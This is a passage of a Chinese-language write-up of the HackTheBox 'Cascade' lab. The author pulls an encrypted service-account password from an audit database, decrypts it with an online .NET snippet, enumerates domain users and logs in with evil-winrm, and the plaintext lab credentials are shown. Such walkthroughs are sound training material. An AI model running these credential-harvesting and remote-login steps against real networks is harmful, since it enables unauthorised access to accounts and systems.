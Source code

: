 ```

批处理RunAudit.bat内容
```
CascAudit.exe "\\CASC-DC1\Audit$\DB\Audit.db"
```

打开Audit.db数据库，得到一组新凭据

```
username : ArkSvc
pwd : BQO5l5Kj9MdErXx6Q6AGOw==
```


查看域用户，有这个用户名
```
*Evil-WinRM* PS C:\Users\s.smith\Documents> net users /domain

User accounts for \\

-------------------------------------------------------------------------------
a.turnbull               administrator            arksvc
b.hanson                 BackupSvc                CascGuest
d.burman                 e.crowe                  i.croft
j.allen                  j.goodhand               j.wakefield
krbtgt                   r.thompson               s.hickson
s.smith                  util
The command completed with one or more errors.

```

看着像base64加密，但是还原以后不是可读的明文，看来还有一层加密

这里我取巧了，把加密数据直接扔到搜索引擎

来到[这个](https://dotnetfiddle.net/2RDoWz)网站，解密上面的密码：```w3lc0meFr31nd```


登录这个账号

```
┌──(root💀kali)-[~/htb/Cascade]
└─# evil-winrm -i 10.10.10.182 -u 'arksvc' -p 'w3lc0meFr31nd'                                                   1 ⨯

Evil-WinRM shell v3.2

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\arksvc\desktop> whoami /all
